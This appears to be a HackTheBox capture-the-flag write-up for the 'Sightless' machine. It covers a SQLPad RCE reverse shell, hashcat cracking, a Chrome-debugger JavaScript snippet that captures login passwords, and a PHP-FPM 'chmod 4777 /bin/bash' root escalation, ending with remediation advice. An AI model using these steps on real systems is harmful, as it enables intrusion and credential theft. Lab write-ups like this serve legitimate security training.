


## Introduction

This write-up details my approach to solving the HackTheBox machine "Sightless". The box demonstrates several common vulnerabilities including remote code execution (RCE) via CVE-2022-0944 and privilege escalation through service misconfiguration.

## Initial Reconnaissance

I began with a standard Nmap scan to identify open ports and services:

```shell
✦ ❯ nmap -sC -sV -oA nmap/sightless -v sightless.htb
```

The scan revealed three open ports:

- Port 21 (FTP)
- Port 22 (SSH) - OpenSSH 8.9p1
- Port 80 (HTTP) - nginx 1.18.0

### Web Enumeration

The website revealed several interesting endpoints and email addresses:
- `sales@sightless.htb`
- `john@sightless.htb`
- `admin@sightless.htb`

The main website directly links to `sqlpad.sightless.htb` running SQLPad version 6.10.0.

## Initial Foothold

### SQLPad Exploitation

Research revealed SQLPad 6.10.0 is vulnerable to Remote Code Execution (CVE-2022-0944). This vulnerability allows unauthenticated attackers to achieve RCE through the application's query functionality.

A google search found this PoC exploit code:
[sqlpad PoC](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944)

I set up a reverse shell listener:

```shell
❯ rev
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.149:4444
```

Then executed the exploit:

```bash
❯ python sqlpad_exploit.py http://sqlpad.sightless.htb/ 10.10.14.149 4444
```

This provided initial access, but I found myself in a Docker container:

```bash
❯ rev
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.149:4444
Ncat: Connection from 10.129.190.223:54312.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# whoami
whoami
root
```

## Lateral Movement

### Container Enumeration

Inside the container, since I was root, I could view the shadow file hashes which I extracted and cracked using hashcat:

```bash
❯ hashcat -m 1800 -a 0 shadow.txt ~/htb/code/rockyou.txt
```

Results:
- michael:insaneclownposse
- root:blindside

Using these credentials, I successfully authenticated to the host system via SSH:

```bash
❯ ssh michael@sightless.htb
```

This provided access to the user flag: `4d4dc0c45426f0df47b91165--snip--`

### Process Enumeration

Process analysis revealed several interesting services running as root and the john user:

```bash
root        1487  1.2  3.2 984152 130200 ?       Ssl  19:00   2:59 node /usr/app/server.js
john        1575  0.0  0.6  33660 24856 ?        S    19:02   0:06 /usr/bin/python3 /home/john/automation/administration.py
john        1576  0.2  0.3 33630172 15340 ?      Sl   19:02   0:40 /home/john/automation/chromedriver --port=60679
```

### Chrome Debugging Exploitation

I discovered Chrome's remote debugging port was exposed locally. I setup port forwarding for that and the other locally listening ports:

```bash
❯ ssh -L 35191:127.0.0.1:35191 \
    -L 43649:127.0.0.1:43649 \
    -L 33060:127.0.0.1:33060 \
    -L 38081:127.0.0.1:38081 \
    -L 3000:127.0.0.1:3000 \
    -L 8181:127.0.0.1:8080 \
    -L 3306:127.0.0.1:3306 \
    michael@sightless.htb
```

First, we goto the locally listening port 8080 that's forwarded to 8181 on my local machine and we get a froxlor login page:


However, we have no credentials that work here. We now switch to the remote chrome debugging we saw earlier. Now that the port is forwarded, we can add it to our local chrome instance to connect from our attacker machine.

The first step is to goto the chrome debugging settings on our attacker machine's browser:


Next, we add the remote chrome debugging forwarded port:


Now we see we have the option to inspect the remote chrome session:


Once we click inspect, we can see the victim's chrome browser through the debugging port:


We see the victim machine is logging in and out of the froxlor admin panel:


We need to capture the username and password as the victim is logging in, so we write this javascript in the console:
```javascript
const passwordField = document.querySelector('input[type="password"]');
const loginButton = document.querySelector('button[type="submit"], input[type="submit"], button[name="login"]');

if (passwordField && loginButton) {
    loginButton.addEventListener('click', function(e) {
        e.preventDefault();
        console.log('Captured Password:', passwordField.value);
        debugger;
        e.target.form.submit();
    });
}
```

This revealed the admin password: `ForlorfroxAdmin`


## Privilege Escalation

### FTP Access

Using the admin interface, I was able to:
1. Access the customer management system
2. Impersonate the web1 user
3. Modify FTP credentials

Here's the FTP panel:


I'm able to change the FTP password:


### KeePass Database Analysis

Through FTP access, I discovered and downloaded a KeePass database:

```bash
❯ lftp -e "set ssl:verify-certificate no" web1@sightless.htb
lftp web1@sightless.htb:/goaccess/backup> get Database.kdb
```

I cracked the database password using keepass2john and hashcat:

```bash
❯ keepass2john Database.kdb > keepass.hash
❯ hashcat -m 13400 -a 0 keepass.hash ~/htb/code/rockyou.txt
```

The password was revealed as `bulldogs`. This path leads to a root password in the decrypted keepass db. The password does not work for root however, and I missed the fact there was an id_rsa key attachment in the database, and I was able to get root another way as described below.

### Final Privilege Escalation

The final privilege escalation involved exploiting PHP-FPM configuration:

1. Created a new PHP-FPM version with a malicious restart command: `chmod 4777 /bin/bash`
2. Triggered the command through PHP-FPM restart
3. Executed privileged bash to obtain root access:

The PHP panel:


I'm able to create a new PHP-FPM version:


After restarting the PHP-FPM service, my code is executed and I can get a root shell:
```bash
michael@sightless:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
6307f0104d6709cd54e1ab3--snip--
```

## Vulnerabilities Identified

1. **Remote Code Execution (CVE-2022-0944)**
   - SQLPad 6.10.0 RCE vulnerability
   - CWE-78: OS Command Injection

2. **Insecure Password Storage**
   - Cleartext credentials in memory
   - CWE-522: Insufficiently Protected Credentials

3. **Remote Debugging Port Exposure**
   - Chrome debugger accessible
   - CWE-200: Information Exposure

4. **Unsafe Service Configuration**
   - PHP-FPM misconfiguration allowing command injection
   - CWE-269: Improper Privilege Management

## Recommendations

1. Update SQLPad to the latest version
2. Implement proper authentication for debugging interfaces
3. Restrict service configurations to prevent command injection
4. Implement proper password storage mechanisms
5. Regular security audits of container configurations

## References
- [CVE-2022-0944: SQLPad Remote Code Execution Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2022-0944)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
- [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)